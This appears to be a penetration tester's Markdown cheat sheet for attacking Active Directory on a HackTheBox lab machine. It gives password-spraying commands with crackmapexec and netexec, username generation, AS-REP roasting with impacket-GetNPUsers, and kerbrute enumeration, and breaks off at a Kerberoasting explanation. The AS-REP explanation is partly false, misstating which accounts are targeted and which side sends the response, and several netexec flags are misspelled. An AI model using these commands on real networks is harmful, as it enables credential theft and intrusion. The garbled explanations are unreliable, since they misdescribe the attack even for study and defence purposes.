 ````bash
crackmapexec smb 10.10.10.169 -u users.txt -p password.txt --continue-on-success
netexec ldap <target-ip> -u users.txt -p password.txt --continue-on-succes
netexec smb <target-ip> -u users.txt -p password.txt --continue-on-succes
netexec winrm <target-ip> -u users.txt -p password.txt --continue-on-succes
````

### Kerberos pre-authentication vulnerability
---
#### Username-anarchy
---
**Username-anarchy** is a tool commonly used in **Active Directory enumeration** during security assessments. It is designed to find **usernames** based on common naming conventions used within organizations. The tool tries to identify likely usernames by leveraging patterns such as the combination of first names, last names, initials, and common organizational naming formats.

````bash
./username-anarchy --input-file /home/whare/hackthebox/maquinas/saune/users.txt --select-format first,flast,first.last,firstl > test_users.txt
````
#### AS-REP attack
---
An **AS-REP attack** exploits the **Kerberos authentication protocol** in Active Directory environments, targeting **user accounts** without pre-existing passwords or **non-Microsoft accounts**. When these accounts attempt to authenticate, they send an **AS-REP (Authentication Service Response)** to the domain controller, which is **encrypted**. This response can be intercepted and cracked offline to reveal the user's password, making this attack particularly effective against accounts without strong protections in place.

**Target**: User accounts, especially those without passwords or those using non-Microsoft identities.

````bash
impacket-GetNPUsers.py is an Impacket script used for AS-REP Roasting attacks in Active Directory. It retrieves users with Kerberos pre-authentication disabled, allowing attackers to capture and crack password hashes offline.
# COMANDS
impacket-GetNPUsers.py -no-pass -usersfile test_users.txt EGOTISTICAL-BANK.local/
impacket-GetNPUsers.py -usersfile users.txt -domain DOMAIN.local -no-pass
````

````bash
`Kerbrute` is a tool for performing brute-force attacks against Kerberos authentication. It can be used to enumerate valid usernames and perform AS-REP Roasting attacks to obtain password hashes from users with Kerberos pre-authentication disabled.
# COMANDS
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL usernames.txt
kerbrute userenum -d DOMAIN -i users.txt
````
#### Kerberoasting
---
**Kerberoasting** targets **service accounts** in Active Directory environments. In this attack, an attacker requests **Service Tickets (TGS)** for service accounts with a registered **Service Principal Name (SPN)**. These tickets are encrypted with the service account's password hash, and once obtained, they can be cracked offline to reveal the plaintext password of the service account. This provides attackers with access to services and potential privilege escalation.
